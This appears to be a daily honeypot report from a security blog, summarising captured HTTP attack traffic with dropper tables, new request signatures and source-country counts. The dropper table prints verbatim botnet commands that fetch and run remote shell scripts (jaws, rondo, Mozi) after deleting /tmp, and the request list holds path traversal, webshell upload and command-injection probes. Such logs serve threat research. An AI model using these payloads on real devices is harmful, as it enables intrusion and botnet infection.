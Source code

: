 ```yaml
---
title: "Report: 2025-07-17 "
date: 2025-07-17
desciption: "Report: 2025-07-17" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-17 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 12 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 26 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1004 requests were recorded during the day, originating from 12 different countries, with a peak of 216 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| DE               | Germany            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                              |
|:----------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.135.194.11   | GET /shell?%28wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.jaws.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F38.59.219.27%2Frondo.jaws.sh%7C%7Ccurl%20http%3A%2F%2F38.59.219.27%2Frondo.jaws.sh%29%7Csh%3B HTTP/1.1 |
| 117.72.211.135  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 125.71.237.92   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 221.204.61.170  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 180.244.112.233 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://180.244.112.233:58214/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                       |
| 8.219.236.45    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 8.211.199.38    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 8.222.196.142   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 8.219.136.190   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 120.39.222.178  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 183.252.52.229  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                 |
| 59.89.7.202     | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                 |
|----:|----------------------:|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  89 |                     2 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\xCE\x9A\xF7\x7F\x00\x00\x00\xF5\xCAj\x83\x00\x00\x00\xE0\x81\xF3\x9A\xF7\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |
| 147 |                     2 | GET /articles/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
| 149 |                     2 | PATCH /mgmt/tm/auth/user/ndEGX HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
| 166 |                     1 | GET /vpn-forbidden%22;%20%7D%20else%20%7B%20window.location.href%20=%20 HTTP/1.1                                                                                                                                                                                                                                                                        |
| 167 |                     1 | GET /ppp_user_X116.asp HTTP/1.1                                                                                                                                                                                                                                                                                                                         |
| 217 |                     1 | POST /MagicInfo/servlet/SWUpdateFileUploader?fileName=./../../../../../../server/R0jdE9.jsp&deviceType=abc&deviceModelName=test&swVer=123 HTTP/1.1                                                                                                                                                                                                      |
| 218 |                     1 | GET /MagicInfo/R0jdE9.jsp?input=Mnp6dlBCc3AwMVZaaWwxU1J6M21ES0lrN0N6 HTTP/1.1                                                                                                                                                                                                                                                                           |
| 239 |                     1 | GET /../../../../../etc/passwd%00 HTTP/1.1                                                                                                                                                                                                                                                                                                              |
| 262 |                     1 | \x00\x0E\x08\x93L#\xC1\xDC\x95G\x97\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                 |
| 263 |                     1 | \x00\x0E8\x93L#\xC1\xDC\x95G\x97\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                    |
| 267 |                     1 | GET /bZ5E9rPDSh.php HTTP/1.1                                                                                                                                                                                                                                                                                                                            |
| 283 |                     1 | POST /goform/set_hidessid_cfg HTTP/1.1                                                                                                                                                                                                                                                                                                                  |
| 285 |                     1 | POST /loginok.html HTTP/1.1                                                                                                                                                                                                                                                                                                                             |
| 286 |                     1 | GET /webui/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
| 287 |                     1 | GET /dir.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 288 |                     1 | POST /services/messagebroker/streamingamf HTTP/1.1                                                                                                                                                                                                                                                                                                      |
| 291 |                     1 | POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true HTTP/1.1                                                                                                                                                                                                                            |
| 292 |                     1 | POST /admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties HTTP/1.1                                                                                                                                                                                                                                                            |
| 303 |                     1 | POST /p/u/doAuthentication.do HTTP/1.0                                                                                                                                                                                                                                                                                                                  |
| 304 |                     1 | GET /docs/1.0/?{{phpinfo()}} HTTP/1.1                                                                                                                                                                                                                                                                                                                   |
| 305 |                     1 | POST /php/dal.php HTTP/1.1                                                                                                                                                                                                                                                                                                                              |
| 307 |                     1 | GET /locales/locale.json?locale=..%2F..%2Fconfig&namespace=app HTTP/1.1                                                                                                                                                                                                                                                                                 |
| 314 |                     1 | GET /webui/application/get_saml_request?saml_id=1%26$(id|%20base64); HTTP/1.1                                                                                                                                                                                                                                                                           |
| 324 |                     1 | GET /xxxxx HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
| 344 |                     1 | \x00\x0E\x08\xD5\x9Ff\xDC&\xF2?\xB8\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                 |
| 345 |                     1 | \x00\x0E8\xD5\x9Ff\xDC&\xF2?\xB8\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                    |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   216 | US                 |
|  1 |                   141 | GB                 |
|  2 |                    84 | PL                 |
|  3 |                    81 | NL                 |
|  4 |                    61 | IR                 |
|  5 |                    54 | HK                 |
|  6 |                    47 | CH                 |
|  7 |                    45 | SO                 |
|  8 |                    37 | MC                 |
|  9 |                    34 | BG                 |
| 10 |                    33 | CA                 |
| 11 |                    25 | VN                 |
| 12 |                    21 | DE                 |
| 13 |                    13 | CN                 |
| 14 |                    11 | SA                 |
| 15 |                    10 | RU                 |
| 16 |                     8 | SG                 |
| 17 |                     8 | TR                 |
| 18 |                     6 | UA                 |
| 19 |                     6 | IL                 |
| 20 |                     5 | ZA                 |
| 21 |                     5 | BE                 |
| 22 |                     5 | PT                 |
| 23 |                     5 | MU                 |
| 24 |                     4 | FR                 |
| 25 |                     4 | AU                 |
| 26 |                     3 | JP                 |
| 27 |                     3 | IN                 |
| 28 |                     3 | MA                 |
| 29 |                     3 | KZ                 |
| 30 |                     3 | SC                 |
| 31 |                     2 | BR                 |
| 32 |                     2 | ID                 |
| 33 |                     2 | AM                 |
| 34 |                     2 | MD                 |
| 35 |                     2 | ES                 |
| 36 |                     2 | KR                 |
| 37 |                     2 | IE                 |
| 38 |                     1 | PA                 |
| 39 |                     1 | GE                 |
| 40 |                     1 | SY                 |
| 41 |                     1 | TW                 |
| 42 |                     1 | AR                 |
| 43 |                     1 | RO                 |

